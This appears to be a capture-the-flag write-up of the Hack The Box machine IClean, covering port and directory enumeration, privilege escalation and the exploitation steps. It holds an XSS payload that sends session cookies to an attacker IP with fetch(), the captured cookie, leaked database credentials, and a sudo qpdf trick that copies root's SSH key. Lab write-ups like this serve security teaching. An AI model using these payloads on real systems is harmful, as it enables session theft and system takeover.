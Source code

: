 ```yaml
---
title: HTB - IClean
date: 2024-08-04 00:00:00 + 1000
categories: [Web App,CTF,HTB]
tags: [htb,WebExploitation, XSS, SSTI]
comments: false
---
```



The IClean is Medium-Rated HTB machine involved exploiting a web application vulnerable to XSS and SSTI, leading to a root shell. It involved grabbing a session cookie, then used the SSTI to gain a shell and found the database credentials, and the gained access as consuela, which allowed for privilege escalation


## Common Enumerations

### Nmap

Running the `nmap -p 22,80 -sC -sV 10.10.11.12 -oA recon/openport` - found two open ports

- SSH - 22
- HTTP - 80

```bash
$ nmap -p- 10.10.11.12 -oA recon/allport
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 19:44 AEST
Nmap scan report for 10.10.11.12
Host is up (0.0044s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 4.57 seconds

$ nmap -p 22,80 -sC -sV 10.10.11.12 -oA recon/openport
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 19:46 AEST
Nmap scan report for 10.10.11.12
Host is up (0.0058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.93 seconds
```

## Website (port 80)

10.10.11.12 - redirect to `http://capiclean.htb/`. Which I have added to the `/etc/hosts`

![img](/assets/img/IClean/1.webp)

Gobuster found a few interesting endpoints

```bash
$ gobuster dir -u 'http://capiclean.htb/' -w '/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt' -o recon/gobuster

===============================================================                                                                                   
Starting gobuster in directory enumeration mode                                                                                                   
===============================================================                                                                                   
/logout               (Status: 302) [Size: 189] [--> /]
/login                (Status: 200) [Size: 2106]
/about                (Status: 200) [Size: 5267]
/services             (Status: 200) [Size: 8592]
/dashboard            (Status: 302) [Size: 189] [--> /]
/team                 (Status: 200) [Size: 8109]
/quote                (Status: 200) [Size: 2237]
/server-status        (Status: 403) [Size: 278]
/choose               (Status: 200) [Size: 6084]
Progress: 23895 / 30001 (79.65%)[ERROR] parse "http://capiclean.htb/error\x1f_log": net/url: invalid control character in URL
Progress: 30000 / 30001 (100.00%)
```

The `/quote` endpoint looked promising. I noticed a "Service" parameter and decided to play around with it

![img](/assets/img/IClean/2.webp)

### XSS via Service parameter

I created a classic XSS payload using an `<img>` tag with an `onerror` handler

```js
<img src=x onerror=fetch("http://10.10.14.8:1337/"+document.cookie);>
```

Started a simple HTTP server on port 1337 to catch the cookie

```python
$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.11.12 - - [01/May/2024 21:04:32] code 404, message File not found
10.10.11.12 - - [01/May/2024 21:04:32] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZjIhgA.IPjjisRtO1-Abm44368_wa-H4iY HTTP/1.1" 404 -
```

It worked! I had the session cookie

![img](/assets/img/IClean/3.webp)

### SSTI via /QRGenerator

Next, I checked the `/QRGenerator` endpoint. This endpoint seemed vulnerable via `qr_link` parameter. I tried a few things, and after a bit of experimentation, I found it was vulnerable to Server-Side Template Injection (SSTI)

![img](/assets/img/IClean/4.webp)

Using the below payload - [More Info](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/?source=post_page-----cfc46f351353--------------------------------). I was able to execute commands and got the shell

![img](/assets/img/IClean/12.webp)


## Shell as www-data

Now I had a shell, I needed to find a way to escalate my privileges. I took a look at the `app.py` file, where I found the database credentials

```python
# Database Configuration

db_config = {                                                                                                                             
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}

```

With these credentials, I logged into the MySQL

```bash
mysql -h 127.0.0.1 -u iclean -p pxCsmnGLckUb
```

I found a user called `consuela` with the password "simple and clean". I used this information to get a shell as `consuela`

![img](/assets/img/IClean/5.webp)

## Shell as consuela

With a shell as `consuela`, I grep the `user.txt`

```
c0116968....
```

I used the `sudo -l` to check for any available `sudo` commands.

![img](/assets/img/IClean/8.webp)

## Root SSH

I found a way to escalate my privileges using the `qpdf`

```bash
sudo /usr/bin/qpdf --empty /tmp/id.txt --qdf --add-attachment /root/.ssh/id_rsa --
```

root.txt

```bash
eb3c0a59...
```


